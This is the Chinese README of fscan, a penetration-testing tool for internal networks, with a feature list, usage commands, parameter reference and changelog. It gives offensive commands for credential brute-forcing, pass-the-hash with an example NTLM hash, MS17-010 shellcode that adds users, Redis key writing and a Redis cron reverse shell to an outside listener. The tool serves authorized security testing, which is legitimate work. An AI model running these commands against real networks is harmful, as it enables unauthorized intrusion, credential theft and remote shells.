

# fscan
[English][url-docen]

# 1. 简介
一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。   
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

# 2. 主要功能
1.信息搜集:
* 存活探测(icmp)
* 端口扫描

2.爆破功能:
* 各类服务爆破(ssh、smb、rdp等)
* 数据库密码爆破(mysql、mssql、redis、psql、oracle等)  

3.系统信息、漏洞扫描:  
* netbios探测、域控识别  
* 获取目标网卡信息
* 高危漏洞扫描(ms17010等)  

4.Web探测功能:
* webtitle探测
* web指纹识别(常见cms、oa框架等)
* web漏洞扫描(weblogic、st2等,支持xray的poc)

5.漏洞利用:
* redis写公钥或写计划任务  
* ssh命令执行  
* ms17017利用(植入shellcode),如添加用户等  

6.其他功能:
* 文件保存

# 3. 使用说明
简单用法
``` 
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
fscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
fscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
fscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (只支持简单tcp功能的代理,部分功能的库不支持设置代理)
fscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
fscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash,如32ed87bdb5fdc5e9cba88547376818d4)
fscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
```
编译命令
```
go build -ldflags="-s -w " -trimpath main.go
upx -9 fscan.exe (可选,压缩体积)
```
arch用户安装  
`yay -S fscan-git  或者 paru -S fscan-git`

完整参数
```
  -c string
        ssh命令执行
  -cookie string
        设置cookie
  -debug int
        多久没响应,就打印当前进度(default 60)
  -domain string
        smb爆破模块时,设置域名
  -h string
        目标ip: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        读取文件中的目标
  -hn string
        扫描时,要跳过的ip: -hn 192.168.1.1/24
  -m string
        设置扫描模式: -m ssh (default "all")
  -no
        扫描结果不保存到文件中
  -nobr
        跳过sql、ftp、ssh等的密码爆破
  -nopoc
        跳过web poc扫描
  -np
        跳过存活探测
  -num int
        web poc 发包速率  (default 20)
  -o string
        扫描结果保存到哪 (default "result.txt")
  -p string
        设置扫描的端口: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,139,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017")
  -pa string
        新增需要扫描的端口,-pa 3389 (会在原有端口列表基础上,新增该端口)
  -path string
        fcgi、smb romote file path
  -ping
        使用ping代替icmp进行存活探测
  -pn string
        扫描时要跳过的端口,as: -pn 445
  -pocname string
        指定web poc的模糊名字, -pocname weblogic
  -proxy string
        设置代理, -proxy http://127.0.0.1:8080
  -user string
        指定爆破时的用户名
  -userf string
        指定爆破时的用户名文件
  -pwd string
        指定爆破时的密码
  -pwdf string
        指定爆破时的密码文件
  -rf string
        指定redis写公钥用模块的文件 (as: -rf id_rsa.pub)
  -rs string
        redis计划任务反弹shell的ip端口 (as: -rs 192.168.1.1:6666)
  -silent
        静默扫描,适合cs扫描时不回显
  -sshkey string
        ssh连接时,指定ssh私钥
  -t int
        扫描线程 (default 600)
  -time int
        端口扫描超时时间 (default 3)
  -u string
        指定Url扫描
  -uf string
        指定Url文件扫描
  -wt int
        web访问超时时间 (default 5)
  -pocpath string
        指定poc路径
  -usera string
        在原有用户字典基础上,新增新用户
  -pwda string
        在原有密码字典基础上,增加新密码
  -socks5
        指定socks5代理 (as: -socks5  socks5://127.0.0.1:1080)
  -sc 
        指定ms17010利用模块shellcode,内置添加用户等功能 (as: -sc add)
```

# 4. 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`


`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写公钥)`


`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`


`fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 一键支持xray的poc`


`fscan.exe -h 192.168.x.x -p 139 (netbios探测、域控识别,下图的[+]DC代表域控)`


`go run .\main.go -h 192.168.x.x/24 -m netbios(-m netbios时,才会显示完整的netbios信息)`


`go run .\main.go -h 192.0.0.0/8 -m icmp(探测每个C段的网关和数个随机IP,并统计top 10 B、C段存活数量)`


# 5. 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。
除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。


# 6. 404StarLink 2.0 - Galaxy


fscan 是 404Team [星链计划2.0](https://github.com/knownsec/404StarLink2.0-Galaxy) 中的一环，如果对fscan 有任何疑问又或是想要找小伙伴交流，可以参考星链计划的加群方式。

- [https://github.com/knownsec/404StarLink2.0-Galaxy#community](https://github.com/knownsec/404StarLink2.0-Galaxy#community)


# 7. Star Chart
[](https://starchart.cc/shadow1ng/fscan)

# 8. 捐赠
 如果你觉得这个项目对你有帮助，你可以请作者喝饮料🍹 [点我](image/sponsor.png)

# 9. 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   
https://github.com/jjf012/gopoc


# 10. 最近更新
[+] 2023/11/13 加入控制台颜色输出(可-nocolor)、保存文件json结构(-json)、修改tls最低版本为1.0、端口分组(-p db,web,service)。  
[+] 2022/11/19 加入hash碰撞、wmiexec无回显命令执行。  
[+] 2022/7/14 -hf 支持host:port和host/xx:port格式,rule.Search 正则匹配范围从body改成header+body,-nobr不再包含-nopoc.优化webtitle 输出格式。  
[+] 2022/7/6 加入手工gc回收,尝试节省无用内存。 -url 支持逗号隔开。 修复一个poc模块bug。-nobr不再包含-nopoc。  
[+] 2022/7/2 加强poc fuzz模块,支持跑备份文件、目录、shiro-key(默认跑10key,可用-full参数跑100key)等。新增ms17017利用(使用参数: -sc add),可在ms17010-exp.go自定义shellcode,内置添加用户等功能。    
新增poc、指纹。支持socks5代理。因body指纹更全,默认不再跑ico图标。  
[+] 2022/4/20 poc模块加入指定目录或文件 -pocpath poc路径,端口可以指定文件-portf port.txt,rdp模块加入多线程爆破demo, -br xx指定线程。  
[+] 2022/2/25 新增-m webonly,跳过端口扫描,直接访问http。致谢@AgeloVito  
[+] 2022/1/11 新增oracle密码爆破。  
[+] 2022/1/7  扫ip/8时,默认会扫每个C段的网关和数个随机IP,推荐参数:-h ip/8 -m icmp.新增LiveTop功能,检测存活时,默认会输出top10的B、C段ip存活数量。  
[+] 2021/12/7 新增rdp扫描,新增添加端口参数-pa 3389(会在原有端口列表基础上,新增该端口)。  
[+] 2021/12/1 优化xray解析模块,支持groups、新增poc,加入https判断(tls握手包),优化ip解析模块(支持所有ip/xx),增加爆破关闭参数 -nobr,添加跳过某些ip扫描功能 -hn 192.168.1.1,添加跳过某些端口扫描功能-pn 21,445,增加扫描docker未授权漏洞。  
[+] 2021/6/18 改善一下poc的机制，如果识别出指纹会根据指纹信息发送poc，如果没有识别到指纹才会把所有poc打一遍。  
[+] 2021/5/29 加入fcgi协议未授权命令执行扫描,优化poc模块,优化icmp模块,ssh模块加入私钥连接。  
[+] 2021/5/15 新增win03版本(删减了xray_poc模块),增加-silent 静默扫描模式,添加web指纹,修复netbios模块数组越界,添加一个CheckErrs字典,webtitle 增加gzip解码。  
[+] 2021/5/6 更新mod库、poc、指纹。修改线程处理机制、netbios探测、域控识别模块、webtitle编码模块等。  
[+] 2021/4/22 修改webtitle模块,加入gbk解码。  
[+] 2021/4/21 加入netbios探测、域控识别。  
[+] 2021/3/4 支持-u url或者-uf url.txt,对url进行批量扫描。  
[+] 2021/2/25 修改yaml解析模块,支持密码爆破,如tomcat弱口令。yaml中新增sets参数,类型为数组,用于存放密码,具体看tomcat-manager-week.yaml。  
[+] 2021/2/8 增加指纹识别功能,可识别常见CMS、框架,如致远OA、通达OA等。  
[+] 2021/2/5 修改icmp发包模式,更适合大规模探测。  
修改报错提示,-debug时,如果10秒内没有新的进展,每隔10秒就会打印一下当前进度。  
[+] 2020/12/12 已加入yaml解析引擎,支持xray的Poc,默认使用所有Poc(已对xray的poc进行了筛选),可以使用-pocname weblogic,只使用某种或某个poc。需要go版本1.16以上,只能自行编译最新版go来进行测试。  
[+] 2020/12/6 优化icmp模块,新增-domain 参数(用于smb爆破模块,适用于域用户) 。  
[+] 2020/12/03 优化ip段处理模块、icmp、端口扫描模块。新增支持192.168.1.1-192.168.255.255。  
[+] 2020/11/17 增加-ping 参数,作用是存活探测模块用ping代替icmp发包。  
[+] 2020/11/17 增加WebScan模块,新增shiro简单识别。https访问时,跳过证书认证。将服务模块和web模块的超时分开,增加-wt 参数(WebTimeout)。  
[+] 2020/11/16 对icmp模块进行优化,增加-it 参数(IcmpThreads),默认11000,适合扫B段 。  
[+] 2020/11/15 支持ip以文件导入,-hf ip.txt,并对去重做了处理。  

[url-docen]: README_EN.md
